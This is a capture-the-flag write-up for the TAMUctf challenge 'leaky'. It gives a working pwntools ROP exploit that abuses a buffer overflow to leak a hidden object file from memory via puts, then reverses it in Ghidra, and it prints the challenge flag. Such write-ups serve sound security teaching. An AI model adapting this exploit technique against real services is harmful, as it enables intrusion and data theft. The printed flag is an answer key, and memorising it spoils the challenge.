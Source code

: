 # leaky

## Description

Attack this binary and get the flag!

```nc challenges.tamuctf.com 8374```

## Solution

`gigem{l34ky_m3m0ry}`

Absolutely cursed.

Leaky loads and executes a .o manually:

![figurë](f7798500-2079-11eb-95af-bc1b459deda7.png)

This is likely the flag-checking code. Unfortunately, it's not provided to us, so this isn't trivial reversing.

Leaky is trivially vulnerable to buffer overflow:

![figurë](cd27c780-2079-11eb-9283-e22c73d12473.png)

There's no obvious execve exploit here, but there are gadgets for puts, printf, putchar, etc. The name being a bit of a hint, let's leak flag_check.o.

```python
from pwn import *
import re

context.log_level = 'error'

elf = ELF("./leaky")
rop = ROP(elf)

pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
puts_gadget = elf.plt['puts']
vuln_gadget = elf.symbols['vuln']

with open("flag_check_gen.o", "wb") as f:
    i = 0
    while i < 0x800:
        print("Trying", 0x10000000 + i)

        chain = p64(0x10000000 + i) + p64(puts_gadget) + p64(vuln_gadget) + b'A' * 16 + p64(pop_rdi)

        p = remote('34.123.3.89', 8374)
        # p = gdb.debug("./leaky")
        # p = elf.process()

        p.recvuntil("What's the flag? ")
        p.sendline(chain)
        p.recvuntil("\n")

        resp = p.recvuntil("\n", drop=True).replace(b"That's wrong :(", b"") + b"\0"

        # print(resp)
        f.write(resp)
        i += len(resp)
        p.close()
```

This code effectively scans the `flag_check.o` by reading the memory it's mapped to. We need to pop the location we're scanning into %rdi because that register is the first argument to puts, so we pop `0x10000000 + i` into %rdi, then call puts for this chain.

Because `puts` terminates at null bytes, we'll just read until the newline of puts and then quit and start a new connection. This is somewhat dangerous as there may be "newlines" in the "strings" present in the elf, but we'll survive. We call `vuln` again just to give it something to do, but this realistically shouldn't be a problem (and a quick `setvbuf` will probably fix it).

This successfully extracts the file, but we're greeted with:

![figurë](2b08df00-207b-11eb-8689-ae7e03aaa5d1.png)

To get around this, notice this instruction which jumps over a large amount of the listing:

![figurë](9357c080-207b-11eb-80ae-9b684cbef12b.png)

This happens because Ghidra uses [recursive descent disassembly](https://reverseengineering.stackexchange.com/a/2350).

To force a linear disassembly at this location, we simply hit the "d" key on the keyboard to force disassembly of these instructions.

![figurë](f5b0c100-207b-11eb-86bd-815f407cb7e0.png)

Ghidra makes a new function here instead of tacking onto `flag_check` due to reasons. Helpfully, the decompilation of this section is quite easy to read, and we get our flag by simply reading the compared characters in order:

![figurë](22fd6f00-207c-11eb-95a8-84cedea2bb99.png)

Note that, in the decompilation above, you can clearly see the effects of splitting at newlines (the `y` of `l34ky` is set to overwrite the 0th index, but in reality it's overwriting the 10th and our scanning completely whiffed because it replaced it with 0).
